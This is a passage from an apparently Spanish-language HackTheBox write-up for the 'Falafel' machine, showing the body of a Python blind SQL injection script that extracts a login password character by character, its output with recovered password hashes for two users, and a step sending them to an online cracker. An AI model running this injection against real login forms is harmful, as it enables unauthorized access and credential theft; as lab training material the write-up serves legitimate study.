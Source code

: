 ```null

    password = ""

    for position in range(1,60):
        for character in characters:
           
            post_data = {
                'username': "admin' and substring(password,%d,1)='%s'-- -" % (position, character),
                'password': 'admin'

            }

            p1.status(post_data['username'])

            r = requests.post(main_url, data=post_data)

            if "Try again.." not in r.text:
                password += character
                p2.status(password)
                break





if __name__ == '__main__':
    makeRequest()
```

Ejecuto el script y obtengo la contraseña

```null
python3 sqli.py
[┴] SQLi: admin' and substring(password,33,1)='g'-- -
[↓] Contraseña: 0e462096931906507119562988736854
```

Lo mismo para el otro usuario

```null
python3 sqli.py
[p] SQLi: chris' and substring(password,33,1)='h'-- -
[◤] Contraseña; : d4ee02a22fc872e36d9e3751ba72ddc8
```

Las introduzco en crackstation para intentar obtenerlas en texto claro

<img src="/writeups/assets/img/Falafel-htb/7.png" alt="">
